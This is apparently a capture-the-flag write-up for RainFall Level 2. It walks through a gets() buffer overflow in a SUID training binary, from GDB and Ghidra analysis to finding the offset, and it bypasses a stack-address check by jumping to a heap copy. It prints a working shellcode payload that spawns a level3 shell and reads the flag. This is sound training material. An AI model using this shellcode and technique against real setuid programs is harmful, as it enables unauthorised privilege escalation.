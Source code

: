 # Level 2 Walkthrough

## Who am I?

```bash
level2@RainFall:~$ id
uid=2021(level2) gid=2021(level2) groups=2021(level2),100(users)
```

## Where am I?

```bash
level2@RainFall:~$ ll
total 17
dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 ./
dr-x--x--x  1 root   root    340 Sep 23  2015 ../
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2*
```

We are in possession of a SUID binary owned by level3. Our objective is to exploit this binary to gain a shell as level3 and read the corresponding `.pass` file.

## First look at the binary (GDB)

Before running the binary, we open it in GDB to check which functions are defined:

```gdb
(gdb) info functions
...
0x080484d4 p
0x0804853f main
```

We see two user-defined functions of interest: `main()` and `p()`.

Let’s disassemble `main()`:

```gdb
(gdb) disas main
    0x0804853f <+0>: push %ebp
    0x08048540 <+1>: mov %esp,%ebp
    0x08048542 <+3>: and $0xfffffff0,%esp
    0x08048545 <+6>: call 0x80484d4 <p>
    0x0804854a <+11>: leave
    0x0804854b <+12>: ret
```

The main function simply calls `p()`.

Now, disassembling `p()` gives:

```gdb
(gdb) disas p
    ...
    call 0x80483c0 <gets@plt>
    ...
    call 0x80483f0 <puts@plt>
    ... call 0x80483e0 <strdup@plt>
```

We immediately notice the use of the insecure `gets()` function and that the input is printed and copied using `puts()` and `strdup()` respectively. This sets the stage for a possible buffer overflow exploit.

## Program Behavior

The program accepts input from stdin, prints it back, and exits.

```bash
level2@RainFall:~$ ./level2
test
test
```

But when given a longer input:

```bash
level2@RainFall:~$ ./level2
<100+ characters>
Segmentation fault (core dumped)
```

This crash strongly suggests the presence of a buffer overflow.

## Exploitation Strategy

### Step 1: Discover the overflow offset

We generate a cyclic pattern of 100 bytes:

```bash
$ msf-pattern_create -l 100
Aa0Aa1Aa2Aa3Aa4Aa5...
```

Then launch the binary inside GDB:

```gdb
(gdb) run
Aa0Aa1Aa2Aa3Aa4Aa5...
Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb) info registers eip
eip            0x37634136       0x37634136
```

We find the offset:

```bash
$ msf-pattern_offset -q 0x37634136
[*] Exact match at offset 80
```

So it takes **80 bytes** to reach EIP.

### Step 2: Understand the program's filter

Using Ghidra, we decompiled the binary and observed the following logic in the function `p()`:

```c
if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n", unaff_retaddr);
    _exit(1);
}
```

**Note:** The variable `unaff_retaddr` does not appear in the source code. This is a name automatically generated by Ghidra to represent the return address saved on the stack. Internally, the program likely retrieves this using a compiler intrinsic such as `__builtin_return_address(0)`.

This check verifies whether the return address (i.e., the address where execution would continue after the function ends) starts with `0xb`, which corresponds to stack memory on this system (e.g., `0xbfxxxxxx`).

If the return address points to the stack, the program prints it and exits immediately. This effectively blocks stack-based shellcode. As a result, we must place our shellcode somewhere else, like the heap and redirect execution there instead.

### Step 3: Determine a usable memory region

At this point, we know that jumping to the stack is forbidden. To successfully exploit the binary, we need to redirect execution to a region where we can inject shellcode that won't be rejected by the address check.

The heap is a good candidate because memory allocations via `malloc()` (used indirectly by `strdup()`) are typically located in the `0x0804xxxx` range, which does not begin with `0xb`.

We will now verify where the heap allocation occurs.

### Step 4: Identify the heap allocation address


After entering input, the program stores a copy of it using `strdup()`, which allocates memory on the heap. This is important because, due to the return address filter (see Step 2), we cannot execute shellcode on the stack.
`ltrace` is a tool that traces calls to shared libraries (like `libc`). It allows us to observe functions such as `gets`, `strdup`, `malloc`, etc., in real time, without needing symbols or debugging information.

So, to locate where the input gets copied in the heap, we can run the binary with `ltrace`:

```bash
$ ltrace ./level2
fflush(0xb7fd1a20)                                    = 0
gets(0xbffff6fc)                                      = 0xbffff6fc
puts("test")                                          = 5
strdup("test")                                        = 0x0804a008

```

This confirms that our input is copied to the heap at `0x0804a008` via `strdup()`.

Since this address doesn't start with 0xb, it passes the check and is usable for exploitation. This is where we’ll inject our shellcode, and later overwrite the return address to jump here.

### Step 5: Plan the payload layout

At this point, we know:

* We can inject shellcode through standard input.
* It will be stored in the heap via `strdup()` at an address like `0x0804a008`.
* The return address is overwritten at offset 80.

The goal is to:

1. Place shellcode at the beginning of the input so it ends up in the heap.
2. Pad the rest of the input up to 80 bytes.
3. Overwrite the return address with the address of the shellcode in the heap.

We can now move on to crafting the actual payload.

### Step 6: Build the exploit payload

* Shellcode (28 bytes): `execve("/bin//sh")` from [https://shell-storm.org/shellcode/files/shellcode-811.html](https://shell-storm.org/shellcode/files/shellcode-811.html)
* Padding (52 bytes): to reach EIP at offset 80
* Return address: `0x0804a008` (address of shellcode in heap)

```bash
python -c 'print("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 52 + "\x08\xa0\x04\x08")' > /tmp/exploit
```

### Step 7: Trigger the exploit

To maintain an interactive shell:

```bash
cat /tmp/exploit - | ./level2
```

### Step 8: Validate access

```bash
$ whoami
level3
$ cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

## Files in this repository

* `flag.txt` : file containing the retrieved flag
* `asm_analysis.md` : GDB analysis of the binary
* `decompiled_level2/` : folder containing the reconstructed C code from Ghidra&#x20;


